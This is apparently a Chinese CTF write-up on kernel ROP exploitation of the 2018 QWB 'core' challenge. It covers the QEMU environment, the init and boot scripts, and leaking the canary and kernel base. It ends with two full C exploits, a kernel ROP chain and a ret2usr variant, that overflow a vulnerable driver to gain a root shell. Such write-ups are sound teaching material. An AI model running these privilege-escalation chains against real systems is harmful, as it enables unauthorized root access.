





#### 环境搭建&工具

- qemu

 qemu 是一款由 Fabrice Bellard等人编写的可以执行硬件虚拟化的开源托管虚拟机，具有运行速度快（配合 kvm），跨平台等优点。 

- gdb&pwndbg
- ropper
- extract-vmlinux & vmlinux-to-elf（我还不会用。。尝试了几次符号表加载进gdb的时候失败了，不过影响也不大，感觉前期不用也没事）

https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux

https://github.com/marin-m/vmlinux-to-elf 

#### 题目附件形式

1. boot.sh: 一个用于启动 kernel 的 shell 的脚本，多用 qemu，保护措施与 qemu 不同的启动参数有关
2. bzImage: kernel binary
3. rootfs.cpio: 文件系统映像(图形界面下可以直接解压。。)



题目：kernel ROP - 2018 强网杯 - core

对于文件系统由于运行qemu时还要打包，所以通常写个压缩的脚本，放在文件系统根目录下。

pack.sh

```shell
#!/bin/sh
find . | cpio -o --format=newc > ../core.cpio
```

文件系统下的init初始化脚本

```shell
#!/bin/sh
mount -t proc proc /proc
mount -t sysfs sysfs /sys
mount -t devtmpfs none /dev
/sbin/mdev -s
mkdir -p /dev/pts
mount -vt devpts -o gid=4,mode=620 none /dev/pts
chmod 666 /dev/ptmx
cat /proc/kallsyms > /tmp/kallsyms
echo 1 > /proc/sys/kernel/kptr_restrict
echo 1 > /proc/sys/kernel/dmesg_restrict
ifconfig eth0 up
udhcpc -i eth0
ifconfig eth0 10.0.2.15 netmask 255.255.255.0
route add default gw 10.0.2.2 
insmod /core.ko

poweroff -d 1200000 -f &
setsid /bin/cttyhack setuidgid 1000 /bin/sh
echo 'sh end!\n'
umount /proc
umount /sys

poweroff -d 0  -f
```

相对重要的几行

1.

```shell
cat /proc/kallsyms > /tmp/kallsyms
```

在普通用户下也可以通过/tmp/kallsyms来查看内核的函数模块，可以泄露内核加载基地址

```shell
cat /tmp/kallsyms | grep startup_64
```



2.

```shell
insmod /core.ko
```

加载驱动命令，也就是存在漏洞的驱动

在root权限下lsmod可以查看驱动加载基地址



3.

```shell
setsid /bin/cttyhack setuidgid 1000 /bin/sh
```

设置用户，在调试过程中通常直接setuid为0，方便查看一些基地址


启动环境前看看启动脚本

boot.sh

```shell
qemu-system-x86_64 \
-m 256M \
-kernel ./bzImage \
-initrd  ./core.cpio \
-append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet kaslr useradd" \
-netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
-nographic  \
-gdb tcp::1234\
```

通常会注意一下-append的内容，查看保护情况，这道题没开smep


#### 题目分析

详细的过程还是看wiki吧...我写的太烂了

https://ctf-wiki.org/pwn/linux/kernel/kernel_rop/

大致思路就是通过 core_read()函数来泄露内存中的敏感信息（canary，驱动加载基地址，vmlinux加载基地址）（这里vmlinux_base也可以通过打开/tmp/kallsyms来直接读取），然后通过 core_write() 和 core_copy_func() 来实现一个栈溢出。

给出最终exp之前先给几个常用的方法。


- 当从内核态回到用户态时流程如下：

1. 通过 `swapgs` 恢复 GS 值
2. 通过 `sysretq` 或者 `iretq` 恢复到用户控件继续执行。如果使用 `iretq` 还需要给出用户空间的一些信息（CS, eflags/rflags, esp/rsp 等）

所以我们需要记录在用户态下的状态，通常用一段汇编代码实现

```c
unsigned long user_cs, user_ss, user_eflags,user_sp;
void save_stats() {
	asm(
		"movq %%cs, %0\n"
		"movq %%ss, %1\n"
		"movq %%rsp, %3\n"
		"pushfq\n"
		"popq %2\n"
		:"=r"(user_cs), "=r"(user_ss), "=r"(user_eflags),"=r"(user_sp)
 		:
 		: "memory"
 	);
}
```


- vmlinux中的函数偏移可以用脚本实现

```python
from pwn import *
elf = ELF('./core/vmlinux')
print "commit_creds",hex(elf.symbols['commit_creds']-0xffffffff81000000)
print "prepare_kernel_cred",hex(elf.symbols['prepare_kernel_cred']-0xffffffff81000000)
```


- 假如程序smep保护没开，那么内核态下也能执行用户空间的代码，就可以在exp中添加执行 commit_creds(prepare_kernel_cred(0)) 的函数（这么做的原因是可以少构造一段gadget，代码会短一点而已）。

smep保护可以直接从启动qemu的脚本boot.sh中查看，也可以通过 

```shell
cat /proc/cpuinfo | grep smep
```

来查看，假如没有回显，那么就是未开启

用户态下构造commit_creds(prepare_kernel_cred(0))，前提是两个函数的地址已经知道。

```c
void get_root()
{
    char* (*pkc)(int) = prepare_kernel_cred;
    void (*cc)(char*) = commit_creds;
    (*cc)((*pkc)(0));
    /* puts("[*] root now."); */
}
```


- `swapgs` & `iretq` 

这两个片段都可以在vmlinux中找到，当然假如驱动里面有这些片段并且基地址已经泄露那么也是可以利用的。不过用ropper的时候要注意虚拟机内存和处理器内核数量设大一点，要不然会跑的很慢而且还不一定跑的出来。






- exp编译

由于内核下是没有libc的所以我们把exp编译成静态

```c
gcc -o exp exp.c -static
```


了解了上面这些内容那么exp确实已经相对好写了，因为内核态下的rop和用户态下的rop其实方法都是一样的，而且gadgets众多总有你喜欢的。。。这里头文件...能加的就加吧，反正加多又不出事。

下面分别给出两种exp

注：这里vmlinux泄露也可以通过栈泄露，但既然启动脚本init里有tmp/kallsyms那么我这里exp就直接去读取就完事。


1.执行内核中的commit_creds(prepare_kernel_cred(0)) （可以无视smep保护）

然后返回用户态后执行system("/bin/sh")

```c
#include<stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <string.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/ioctl.h>
#include <pthread.h>

size_t vmlinux_base=0;
size_t module_base;
size_t canary;
size_t commit_creds = 0x9c8e0;
size_t prepare_kernel_cred = 0x9cce0;

size_t prdi = 0xb2f; //pop rdi; ret;
size_t prdx = 0xa0f49;//pop rdx; ret;
size_t prcx = 0x21e53;//pop rcx; ret;
size_t mrdi_rax_call_rdx= 0x1aa6a;//mov rdi, rax;call rdx;
size_t swapgs = 0xa012da;//swapgs; popfq; ret;
size_t iret=0x50ac2;// iretq; ret;

unsigned long user_cs, user_ss, user_eflags,user_sp;
void save_stats() {
	asm(
		"movq %%cs, %0\n"
		"movq %%ss, %1\n"
		"movq %%rsp, %3\n"
		"pushfq\n"
		"popq %2\n"
		:"=r"(user_cs), "=r"(user_ss), "=r"(user_eflags),"=r"(user_sp)
 		:
 		: "memory"
 	);
}

void setoff(int fd,long long size){
	ioctl(fd,0x6677889C,size);
}
void core_read(int fd,char *buf){
	ioctl(fd,0x6677889b,buf);
}
void core_copy_func(int fd,long long size){
	ioctl(fd,0x6677889a,size);
}

void get_shell(){
	system("/bin/sh");
}

void get_vmlinux_base(){
	FILE *fd = fopen("/tmp/kallsyms","r");
	if(fd<0){
		printf("[*]openfile /tmp/kallsyms error!\n");
		exit(0);
	}
	char tmp[0x50];
	while(fgets(tmp,0x40,fd)!=NULL){
		if(strstr(tmp,"startup_64")==NULL){
			continue;
		}
		char a[0x20];
		memset(a,0,0x20);
		strncpy(a,tmp,0x10);
		sscanf(a,"%llx",&vmlinux_base);
		break;
	}
	prdi += vmlinux_base;
	prcx += vmlinux_base;
	prdx += vmlinux_base;
	mrdi_rax_call_rdx += vmlinux_base;
	swapgs += vmlinux_base;
	iret += vmlinux_base;
	prepare_kernel_cred += vmlinux_base;
	commit_creds += vmlinux_base;
	printf("[*] vmlinux_base===>%p\n",vmlinux_base);
	printf("[*] commit_creds===>%p\n",commit_creds);
	printf("[*] prepare_kernel_cred===>%p\n",prepare_kernel_cred);
	fclose(fd);
}
int main(){
	save_stats();
	get_vmlinux_base();
	int fd;
	fd = open("/proc/core",O_RDWR);
	if(fd < 0 ){
		printf("Open /proc/core error!\n");
		exit(0);
	}
	char buf[0x100];
	size_t tmps[0x10];
	setoff(fd,0x40);
	core_read(fd,buf);
	for(int i = 0;i<8;i++){
		tmps[i] = *(size_t *)(&buf[i*8]);
		printf("[%d] %p\n",i,tmps[i]);
	}
	canary = tmps[0];
	module_base = tmps[2]-0x19b;
	printf("[*] canary===>%p\n",canary);
	printf("[*] module_base===>%p\n",module_base);
	int i = 8;
	size_t rop[0x20];
	rop[i++] = canary;
	rop[i++] = 0;
	rop[i++] = prdi;
	rop[i++] = 0 ; 
	rop[i++] = prepare_kernel_cred;
	rop[i++] = prdx;//pop rdx; ret;
	rop[i++] = prcx;//pop rcx; ret
	rop[i++] = mrdi_rax_call_rdx;//mov rdi, rax;call rdx;
	rop[i++] = commit_creds;
	rop[i++] = swapgs;//swapgs; popfq; ret;
	rop[i++] = 0;
	rop[i++] = iret;// iretq; ret;
	rop[i++] = (size_t)get_shell;
	rop[i++] = user_cs;
	rop[i++] = user_eflags;
	rop[i++] = user_sp;
	rop[i++] = user_ss;
	write(fd,rop,0x100);
	core_copy_func(fd,0xf000000000000000+0x100);
	return 0;
}
```

2.执行用户代码中的commit_creds(prepare_kernel_cred(0)) （ret2usr）

```c
#include<stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <string.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/ioctl.h>
#include <pthread.h>

size_t vmlinux_base=0;
size_t module_base;
size_t canary;
size_t commit_creds = 0x9c8e0;
size_t prepare_kernel_cred = 0x9cce0;

size_t prdi = 0xb2f; //pop rdi; ret;
size_t prdx = 0xa0f49;//pop rdx; ret;
size_t prcx = 0x21e53;//pop rcx; ret;
size_t mrdi_rax_call_rdx= 0x1aa6a;//mov rdi, rax;call rdx;
size_t swapgs = 0xa012da;//swapgs; popfq; ret;
size_t iret=0x50ac2;// iretq; ret;

unsigned long user_cs, user_ss, user_eflags,user_sp;
void save_stats() {
	asm(
		"movq %%cs, %0\n"
		"movq %%ss, %1\n"
		"movq %%rsp, %3\n"
		"pushfq\n"
		"popq %2\n"
		:"=r"(user_cs), "=r"(user_ss), "=r"(user_eflags),"=r"(user_sp)
 		:
 		: "memory"
 	);
}

void setoff(int fd,long long size){
	ioctl(fd,0x6677889C,size);
}
void core_read(int fd,char *buf){
	ioctl(fd,0x6677889b,buf);
}
void core_copy_func(int fd,long long size){
	ioctl(fd,0x6677889a,size);
}

void get_shell(){
	system("/bin/sh");
}

void get_vmlinux_base(){
	FILE *fd = fopen("/tmp/kallsyms","r");
	if(fd<0){
		printf("[*]openfile /tmp/kallsyms error!\n");
		exit(0);
	}
	char tmp[0x50];
	while(fgets(tmp,0x40,fd)!=NULL){
		if(strstr(tmp,"startup_64")==NULL){
			continue;
		}
		char a[0x20];
		memset(a,0,0x20);
		strncpy(a,tmp,0x10);
		sscanf(a,"%llx",&vmlinux_base);
		break;
	}
	prdi += vmlinux_base;
	prcx += vmlinux_base;
	prdx += vmlinux_base;
	mrdi_rax_call_rdx += vmlinux_base;
	swapgs += vmlinux_base;
	iret += vmlinux_base;
	prepare_kernel_cred += vmlinux_base;
	commit_creds += vmlinux_base;
	printf("[*] vmlinux_base===>%p\n",vmlinux_base);
	printf("[*] commit_creds===>%p\n",commit_creds);
	printf("[*] prepare_kernel_cred===>%p\n",prepare_kernel_cred);
	fclose(fd);
}
void get_root()
{
    char* (*pkc)(int) = prepare_kernel_cred;
    void (*cc)(char*) = commit_creds;
    (*cc)((*pkc)(0));
    /* puts("[*] root now."); */
}
int main(){
	save_stats();
	get_vmlinux_base();
	int fd;
	fd = open("/proc/core",O_RDWR);
	if(fd < 0 ){
		printf("Open /proc/core error!\n");
		exit(0);
	}
	char buf[0x100];
	size_t tmps[0x10];
	setoff(fd,0x40);
	core_read(fd,buf);
	for(int i = 0;i<8;i++){
		tmps[i] = *(size_t *)(&buf[i*8]);
		printf("[%d] %p\n",i,tmps[i]);
	}
	canary = tmps[0];
	module_base = tmps[2]-0x19b;
	printf("[*] canary===>%p\n",canary);
	printf("[*] module_base===>%p\n",module_base);
	int i = 8;
	size_t rop[0x20];
	rop[i++] = canary;
	rop[i++] = 0;
	rop[i++] = (size_t)get_root;
	rop[i++] = swapgs;//swapgs; popfq; ret;
	rop[i++] = 0;
	rop[i++] = iret;// iretq; ret;
	rop[i++] = (size_t)get_shell;
	rop[i++] = user_cs;
	rop[i++] = user_eflags;
	rop[i++] = user_sp;
	rop[i++] = user_ss;
	write(fd,rop,0x100);
	core_copy_func(fd,0xf000000000000000+0x100);
	return 0;
}
```

